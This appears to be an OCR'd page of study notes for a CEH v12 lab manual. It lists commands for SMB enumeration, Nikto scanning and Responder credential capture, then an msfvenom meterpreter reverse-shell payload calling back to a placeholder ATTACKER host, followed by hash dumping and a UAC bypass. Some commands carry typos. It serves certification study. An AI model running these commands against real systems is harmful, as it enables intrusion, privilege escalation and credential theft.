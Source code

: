 - Other:
  - *SMB enumeration*:
    - **nmap -p 445 --script smb-enum-shares [IP]**
    - **nmap -p 445 --script smb-enum-users --script-args smbusername=xx,smbpassword=xx  [IP]**
  - *RDP scanner*:
    - In Metasploit: **use auxiliary/scanner/rdp/rdp_scanner**

## Module 05: Vulnerability Analysis (Page 475)

OpenVAS, Nessus, Nikto

### Lab2-Task1: Perform Vulnerability Analysis using OpenVAS (Page 499)

- Scan -> Tasks -> Task Wizard

### Lab2-Task4: Perform Web Servers and Applications Vulnerability Scanning using Nikto (Page 556)

- **nikto -h [URL] -Tuning [X] -o [OUTPUT_FILE] -F txt**
  - **Tuning**: specific test to perform, i.e 4==Injection

## Module 06: System Hacking (Page 568)

### Lab1-Task1: Perform Active Online Attack to Crack the System's Password using Responder (Page 572)

- **Linux:**
  - chmod +x ./Responder.py
  - **sudo ./Responder.py -I eth0**

- **Linux:**
  - Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
  - **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**


*https://www.scribd.com/document/662370313/CEH-v12-LabManual-p02*

### Lab2-Task1: Escalate privileges using privilege escalation tools... (Page 75)

- Create malicious executable
  - **msfvenom -p windows/meterpreter/reverse_tcp --platfrom windows -a x86 -e x86/shitaka_ga_nai -b "\x00" LHOST=ATTACKER -f exe > EXE_FILE**

- Listener:
  - **msfconsole**
  - *use exploit/multi/handler*
  - *set payload windows/meterpreter/reverse_tcp*
  - *set LHOST ATTACKER*
  - *exploit -j -z*
- After executing file on VICTIM
  - *session -i X*
  - *getuid*
- Dump hash
  - *run post/windows/gather/smart_hashdump*
  - If insufficient privileges:
    - *getsystem -t 1*
  - If still problems then:
    - *background*
    - *use exploit/windows/local/bypassuac_fodhelper*
    - *set SESSION X*
